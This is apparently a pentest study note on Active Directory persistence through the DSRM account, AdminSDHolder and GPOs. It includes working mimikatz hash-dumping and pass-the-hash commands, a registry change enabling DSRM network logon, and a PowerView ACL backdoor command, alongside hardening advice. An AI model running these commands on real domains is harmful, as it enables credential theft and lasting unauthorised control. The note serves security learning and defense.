

# 15 - DSRM and Directory Persistence

## 1. Executive Summary

Beyond ticket/credential tricks, attackers plant **persistence in the directory and on the DC** that survives reboots and password resets. **DSRM** (Directory Services Restore Mode) is a local "break-glass" admin on every DC whose password is rarely changed; by flipping one registry value (`DsrmAdminLogonBehavior`) you can use the **DSRM account over the network** as a stealth local admin on the DC. Other durable directory backdoors: **AdminSDHolder/SDProp** (write an ACE that auto-reapplies to all protected groups every 60 min), **ACL backdoors** (GenericAll on a privileged object), and **GPO backdoors** (a linked policy that re-grants you). These are the "I had DA once, I'll have it forever" controls.

## 2. Concept Overview

- **DSRM**: each DC has a local Administrator (the DSRM account) set at promotion. Registry `HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior = 2` allows that account to log on normally → network logon as DC local admin using its (dumpable) hash.
- **AdminSDHolder**: a template object whose ACL **SDProp** stamps onto all "protected" groups (Domain Admins, etc.) hourly — an ACE here = self-healing rights (covered in A-36 note 19; here as part of the persistence toolkit).
- **ACL/GPO backdoors**: durable rights that re-grant access.

## 3. Prerequisites

```bash
# DA / SYSTEM on a DC (to read DSRM hash + set registry); or write to AdminSDHolder
mimikatz # privilege::debug ; token::elevate
```

## 4. Exploitation

```bash
# --- DSRM persistence ---
# 1) Dump the DSRM (local Administrator) hash from a DC's SAM
mimikatz # lsadump::sam            # or token::elevate ; lsadump::lsa /patch
# 2) Allow DSRM network logon
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior /t REG_DWORD /d 2 /f
# 3) Pass-the-hash as the DC's local admin
sekurlsa::pth /domain:<dc-name> /user:Administrator /ntlm:<dsrm-hash>     # local logon to DC

# --- AdminSDHolder ACL backdoor (self-healing DA) ---
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=...' \
  -PrincipalIdentity lowpriv -Rights All       # SDProp reapplies to protected groups hourly

# --- GPO backdoor ---
# add a startup script / restricted-group via a GPO you control (see A-36 note 18)
```

## 5. Mermaid Attack Flow



## 6. Persistence Notes
- **DSRM** survives reboots + domain password changes (it's a *local* account); rarely rotated.
- **AdminSDHolder** ACE re-applies every ~60 min even if defenders remove it from the group — must be cleaned at the source.

## 7. Post-Exploitation / Data Access
- Repeatable DA / DC-local-admin without re-exploiting; full domain control on demand.

## 8. Defense & Hardening
1. Rotate the **DSRM password** regularly (and after DC compromise); set `DsrmAdminLogonBehavior` to 0; monitor that registry key.
2. Audit the **AdminSDHolder** ACL + protected-group ACLs (SDProp); review GPO permissions/links; baseline and alert on changes.
3. Treat any DC compromise as full-domain compromise → rotate krbtgt (x2), DSRM, and review all directory ACLs/GPOs; LSA Protection + Credential Guard on DCs.

## 9. Chaining & Related Notes
- Builds on **[[15 - DCSync Attack]]** (A-36); related A-36 persistence: **[[19 - AdminSDHolder Abuse]]**, **[[18 - GPO Abuse]]**, **[[17 - ACL Abuse]]**.
- DC credential persistence cousin: **[[14 - Skeleton Key and Custom SSP Persistence]]**.

## 10. Tools
`mimikatz` (lsadump::sam, sekurlsa::pth), `reg`, PowerView (`Add-DomainObjectAcl`), `secretsdump.py`.
